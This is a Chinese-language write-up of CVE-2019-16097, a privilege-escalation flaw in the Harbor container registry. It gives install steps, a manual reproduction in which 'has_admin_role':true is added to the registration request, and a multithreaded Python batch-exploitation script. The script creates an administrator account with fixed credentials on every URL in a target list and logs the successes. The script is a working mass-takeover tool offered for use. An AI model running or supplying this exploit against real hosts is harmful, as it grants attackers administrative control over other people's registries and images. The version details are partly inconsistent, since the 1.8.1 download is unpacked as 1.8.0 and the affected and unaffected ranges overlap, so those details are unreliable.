


### 影响版本

Harbor 1.7.0版本至1.8.2版本

### 不受影响版本

Harbor>= 1.7.6

Harbor>= 1.8.3

### 复现之环境准备

1.Cenos7安装好docker和docker-compose 2.下载并安装harbor1.8.1在线安装版本

```
wget https://storage.googleapis.com/harbor-releases/release-1.8.0/harbor-online-installer-v1.8.1.tgz

tar xvf harbor-online-installer-v1.8.0.tgz

cd harbor

vi harbor.yml
```

修改hostname为安装Harbor机器的IP地址。  安装harbor ./install.sh

### 漏洞复现

注册一个Harbor帐号，填写密码时注意要符合规范  对注册信息进行抓包修改，在post数据后面添加”has\_admin\_role”:true 查看\[Response\]，返回201,说明写入成功。 使用admin帐号进入后发现，已经成功写入帐号，并且为管理员权限。

### 批量利用poc

```
import requests
import threading
import logging

data='{"username":"biubiubiu","email":"biubiubiu11@qq.com","realname":"biubiu1biu","password":"Aa111111","comment":"biubiubiu","has_admin_role":true}'

headers={"Content-Type": "application/json"}

def poc(url):
    pwn_url=url+"/api/users"
    payload=data
    try:
        r=requests.post(pwn_url, data=payload,headers=headers,timeout=10)
        print(pwn_url)
        print(r.status_code)
        if r.status_code == 201:
            print("\n\n you has created a user,username=biubiubiu,password=Aa111111")
            f.write(url+"       The URL has created a user,username=biubiubiu,password=Aa111111")
        else:
            print("The vulnerability does not exist on the website or the account name has been written")

    except Exception as e:
        logging.warning(pwn_url)
        print(e)

if __name__ == '__main__':
    print ("this is a CVE-2019-16097 poc")
    print("more cve-2019-16097 info welcome to https://www.lstazl.com")
    f=open("results.txt","a")
    url_list=[i.replace("\n","") for i in open("urls.txt","r").readlines()]
    for url in url_list:
        threading.Thread(target=poc,args=(url,)).start()
        while 1:
            if (len(threading.enumerate())<50):
                break
```

1.在urls.txt中添加你要检测的url

2.python3环境下运行cve-2019-16097脚本 python3 cve-2019-16097.py

3.批量检测完成后再results中查看成功写入账号的url。